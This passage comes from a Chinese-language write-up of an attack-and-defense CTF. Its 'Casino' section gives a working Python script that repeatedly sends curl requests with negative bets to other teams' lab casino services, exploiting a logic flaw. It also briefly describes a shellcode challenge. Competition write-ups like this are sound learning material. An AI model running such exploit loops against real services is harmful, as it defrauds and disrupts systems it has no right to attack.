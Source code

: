 賽後 maple3142 說這題可以 persist 一直拿 flag, 因為不會被洗掉, 但沒人做.

## Casino [A&D / KoH?]

這題只有幫忙臨時寫 script, 寫的是到別人的賭場賭負數的錢, 大概花了 1~2 分鐘寫好.

```python
import os

def get_user_token():
    import requests
    URL = 'http://10.102.100.2:8080/api/roundInfo?team_token=467f2d77f9df424490d15fc05d80774a'
    response = requests.get(URL).json()
    return response['user_token']

def main():
    import requests
    while True:
        for i in range(1, 11):
            user_token = get_user_token()
            if i == 6: continue
            print(i)
            cmd = '''
    curl 'http://10.102.'''+str(i)+'''.20:8000/api/start_game' \
    -H 'Accept: */*' \
    -H 'Accept-Language: zh-TW,zh;q=0.9' \
    -H 'Connection: keep-alive' \
    -H 'Content-Type: application/json' \
    -H 'Cookie: SL_G_WPT_TO=zh-TW; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1; teamToken=<team token>' \
    -H 'DNT: 1' \
    -H 'Origin: http://10.102.9.20:8000' \
    -H 'Referer: http://10.102.9.20:8000/' \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0' \
    --data-raw '{"user_token":"'''+user_token+'''","bet":"-10000"}' \
    --compressed \
    --insecure  '''
    
            print(cmd)        

            os.system(cmd)
main()
```

## ICPC [KoH]

給了競程的題目, 要用 shellcode 解, 像是算 a+b 等於多少、sort 之類的, 可以禁止某些 byte, 基本上這題我沒參與, 這是唯一適合我這隊幾乎全 pwn 組成的題目, 第二天打的很不錯.

## 賽前準備
